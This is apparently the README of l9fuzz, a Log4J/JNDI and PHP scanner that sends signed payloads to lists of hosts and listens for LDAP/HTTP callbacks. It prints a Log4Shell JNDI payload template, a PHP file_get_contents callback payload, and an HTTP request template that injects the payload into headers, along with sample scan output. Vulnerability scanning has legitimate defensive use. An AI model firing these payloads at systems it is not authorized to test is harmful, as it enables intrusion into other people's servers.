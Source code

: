 # l9fuzz

Fuzzes various protocols with signed payloads and listen for ping backs.

## Features

- Low CPU/Memory footprint
- Integrated LDAP/HTTP server
- Trace orignal source and vector
- Gets a direct IP and not a DNS resolver
- Basic usage of HTTP/SSH
- Use of templating with multiple tokens over TCP/SSL

## Use cases

- Log4J/JNDI LDAP scanning
- PHP STDIN
- Make your own templates

## Usage

```
Usage: l9fuzz scan --listen-address=STRING --input-file=INPUT-FILE

Flags:
  -h, --help                       Show context-sensitive help.

  -l, --listen-address=STRING      Listen address (ip:port)
  -i, --input-file=INPUT-FILE      Input file, - for STDIN
  -o, --output-file=OUTPUT-FILE    Output file
  -m, --max-connections=100        Max connections
  -k, --psk="no-payload-check"     Payload sign key
  -r, --request-template=STRING    Uses a custom request template
  -p, --payload-template=STRING    Uses a custom payload
  -t, --timeout=2s                 Timeout (LDAP,http,tcp...)
  -w, --wait=1m                    Wait for ping after scan is done
  -q, --quiet                      No progress bar
  -L, --ldap-debug=LDAP-DEBUG      LDAP server debug log file
  -d, --debug                      Debug
```

## Input file format

```
http://12.44.55.66:8000/test
ssh://34.54.33.22:22
ssh://32.54.33.32:22
ssh://34.54.33.25:2222
tls://43.33.44.11:8081
tcp://12.12.12.12:23
55.21.45.11:8080
```

No scheme means `tcp://`.`tcp://`, `tls://` and `ssl://` are only supported in template mode.

## Output

```
$ ./l9fuzz scan -i - -m 400 -l 167.71.13.196:45432 
Started server at 167.71.13.196:45432
[ldap-reply] From: 14.201.105.110:51428 | Source: https://24.201.106.150:443 | Vector: http-header-x-forwarded-for | Delay: 1.849171982s
[ldap-reply] From: 14.201.105.110:51426 | Source: https://24.201.106.150:443 | Vector: http-url-path | Delay: 1.850494525s
[ldap-reply] From: 257.130.120.178:55897 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.506910982s
[ldap-reply] From: 257.130.120.178:10247 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.537421598s
[ldap-reply] From: 257.130.120.178:3467 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.54305658s
[ldap-reply] From: 257.130.120.178:29311 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.577900357s
[ldap-reply] From: 257.130.120.178:45846 | Source: http://45.199.107.194:80 | Vector: http-url-query-value | Delay: 14.764612109s

$ ./l9fuzz scan -t templates/requests/http.txt -p templates/payloads/log4j215.txt -i source.txt -l 127.0.0.1:4555
[ldap-reply] From: 257.130.120.178:45846 | Source: http://45.199.107.194:80 | Vector: http-url-query-value | Delay: 14.764612109s

```

## Template mode

### Payload templating

If `-p template-file.txt` is specified, the payload is assembled
from `template-file.txt`.

eg: 

```
${jndi:ldap://{{ .Fuzzer.ListenIp }}:{{ .Fuzzer.LDAPPort}}/{{ .Hash }}}
```
or
```
<?php file_get_contents('http://{{ .Fuzzer.ListenIp }}:{{ .Fuzzer.HTTPPort }}/{{ .Hash }}'); ?>
```


Available port are :

- `{{ .Fuzzer.LDAPPort }}`
- `{{ .Fuzzer.HTTPPort }}`

### Request templating

If `-r template-file.txt` is specified, `template-file.txt` is sent
over the TCP/SSL connection instead of using the default payloads.

This allows for specifying your own requests while keeping track of fields :

eg `http.txt`:

```
PUT {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-raw-url" }} HTTP/1.1
Host: {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-header-host" }}
X-My-Header: {{ .Fuzzer.PayloadJNDILog4J .Url.String "http-x-my-header" }}

{{ .Fuzzer.PayloadJNDILog4J .Url.String "http-put-body" }}

```

2 payload methods are available :

- `.Fuzzer.PayloadJNDILog4J` -> Default, generates a JNDILog4j payload
- `.Fuzzer.Payload` -> Uses the payload provided with `-p`


## Notes

This tool uses signed payloads. It can wait indefinitely for pings, even
after a restart if necessary.